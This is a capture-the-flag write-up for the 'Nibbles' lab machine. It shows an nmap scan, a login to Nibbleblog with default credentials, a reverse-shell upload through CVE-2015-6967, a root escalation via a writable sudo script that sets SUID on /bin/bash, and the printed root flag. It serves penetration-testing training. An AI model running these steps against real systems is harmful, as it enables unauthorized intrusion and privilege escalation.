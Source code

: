 ## Initial NMAP scan:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Nibbles]
└─$ nmap 10.129.96.84 -T4 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-19 11:54 +0545
Nmap scan report for 10.129.96.84
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 24.33 seconds
```

## Enemurating Port 80:

Opening the site, there's a comment giving us hint as `/nibbleblog/ directory`

Visiting, `/nibbleblog/` directory, we can confirm it's using nibble blog CMS. after searching for exploits, we can find CVE-2015-6967 which is authenticated RCE.
Trying to login with default credentials `admin:nibbles`, we can login to the CMS successfully.

After reviewing the ExploitDB code, The exploit is simple, after getting loggedin we can go to My image plugin then upload our reverse shell which can be triggered from `/nibbleblog/content/private/plugins/my_image/image.php` which leads us to our shell as `nibbler`.

## Privilege Escalation:

```bash
nibbler@Nibbles:/$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
We can run monitor.sh as root which is under our own home directory which means we can change the content of the file to anything we want and run it as root.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "#\!/bin/bash">monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "chmod u+s /bin/bash">>monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash

/bin/bash -p
bash-4.3# whoami
root

bash-4.3# cat /root/root.txt
29eb7836ff4369ff4e7c6089235a02e4
```

# Takeaways:
- Don't underestimate the power of weak credentials, generate your custom wordlist and try to bruteforce.